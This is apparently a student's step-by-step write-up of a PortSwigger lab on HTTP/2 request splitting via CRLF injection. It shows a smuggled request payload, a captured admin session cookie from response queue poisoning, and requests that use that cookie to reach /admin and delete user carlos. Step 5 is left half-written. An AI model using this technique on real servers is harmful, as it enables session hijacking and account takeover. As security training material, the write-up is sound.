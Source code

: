 # HTTP/2 request splitting via CRLF injection

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

## To solve the lab, delete the user `carlos` by using [response queue poisoning](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning) to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

## The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

---

step 1
send homepage to repeater

![screenshot](./images/images_lab14/lab14_get_request_homepage.png)

step 2
change get request GET / to GET /x

![screenshot](./images/images_lab14/lab14_get_request_with_404_page.png)

step 3
add payload

```http
bar

GET /x HTTP/1.1
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
```

![screenshot](./images/images_lab14/lab14_add_payload.png)

step 4

send request multiple time to get 302 response

![screenshot](./images/images_lab14/lab14_getting_302_response.png)

```http
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

step 5
change value
send request using **\_\_\_\_**

step 1

```http
GET /admin HTTP/1.1
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
```

![screenshot](./images/images_lab14/lab14_access_admin_panel.png)

step 6
delete carlos account

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
```

![screenshot](./images/images_lab14/lab14_delete_carlos_account.png)

step 7
![screenshot](./images/images_lab14/lab14_lab_solved.png)
